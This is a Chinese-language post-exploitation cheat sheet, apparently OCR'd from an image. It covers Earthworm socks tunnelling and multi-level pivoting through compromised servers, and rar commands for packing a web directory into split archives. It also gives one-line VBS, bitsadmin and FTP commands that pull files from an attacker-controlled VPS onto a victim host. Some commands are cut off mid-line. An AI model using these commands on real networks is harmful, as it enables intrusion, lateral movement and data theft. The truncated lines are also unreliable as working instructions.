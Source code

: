 Earthworm（EW）：http://rootkiter.com/EarthWorm/ 6种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran） 正向socks v5服务器：ew –s ssocksd –l 1080，双向通的情况下 (被控web服务器) 反弹socks v5服务器：中间服务器：ew –s rcsocks –l 1080 –e 8888 内网目标机：ew –s rssocks –d ip（被控web） –e 8888 

二级级联：lcx_tran的用法 在目标服务器上执行：ew –s ssocksd –l 9999 在中间服务器上执行：ew –s lcx_tran –l 1080 –f 192.168.150.7 –g 9999 多级级联：Lcx_listen、lcx_slave的用法： 在vps执行:ew –s lcx_listen –l 1080 –e 8888 在目标服务器上执行:ew –s ssocksd –l 9999 在中间服务器上执行:ew –s lcx_slave –d 192.168.3.19 –e 8888 –f 192.168.150.7 –g 9999

三级级联： Vps： ./ew_for_linux64 -s rcsocks -l 999 -e 4444 Kali21: ./ew_for_linux64 -s lcx_slave -d 192.168.3.19 -e 4444 -f 192.168.150.7 -g 9999 Win7: ew –s lcx_listen –l 9999 –e 7777 Win12:ew –s rssocks –d

# 压缩数据 
winrar

把C:\web目录下的所有内容打包为1.rar，放到c:\web下，
命令：  
			压缩： rar.exe a –k –r –s –m3 c:\web\1.rar c:\web
			解压： rar.exe e c:\web\1.rar 要压缩或者解压其他格式文件，只需修改后缀即可，
例如： 
			压缩： rar.exe a –k –r –s –m3 c:\web\1.zip c:\web 
			解压： rar.exe e c:\web\1.zip


分卷压缩/解压 分卷压缩d盘API目录下的所有文件及文件夹（使用-r参数进行递归压缩），设置每 个分卷大小为20MB.结构为
1.part1.rar、 1.part2.rar、 1.part3.rar、 1.part4.rar 
命令为：rar.exe a –m0 –r –v20m d:\1.rar d:\API 
解压：只要解压其中一个 rar.exe x d:\1.part1.rar d:\aa\ (目录) 就会将每个部分解压成完整的文件。

# 上传与下载
## shell
ftpOpen ip Username userpass Get 1.txt //下载 Put 1.txt //上传 Send 1.txt //上传 Quit //结束会话 Cd \<name> //进入目录 Lcd <文件夹路径> //定位本地文件夹l

## vbs和vps
运行以下两条命令，即可将vps上的文件下载下来，需要改vps的ip，和下载位置 1， http访问文件，把访问到的内容保存到11.txt 。 echo Set xPost = CreateObject(^"Microsoft.XMLHTTP^"):xPost.Open ^"GET^",^"http://192.168.150.7:8000/1.txt^",0:xPost.Send():Set sGet = CreateObject(^"ADODB.Stream^"):sGet.Mode = 3:sGet.Type = 1:sGet.Open():sGet.Write(xPost.responseBody):sGet.SaveToFile ^"C:\11.txt^",2 >down.vbs 2，运行 down.vbs 生成文件 Cscript down.vbs
##  bitsadmin>2003
1，bitsadmin /rawreturn /transfer getfile http://192.168.150.7:8000/1.txt c:\111.txt 2，bitsadmin /transfer q http://192.168.150.7:8000/1.txt c:\1.txt
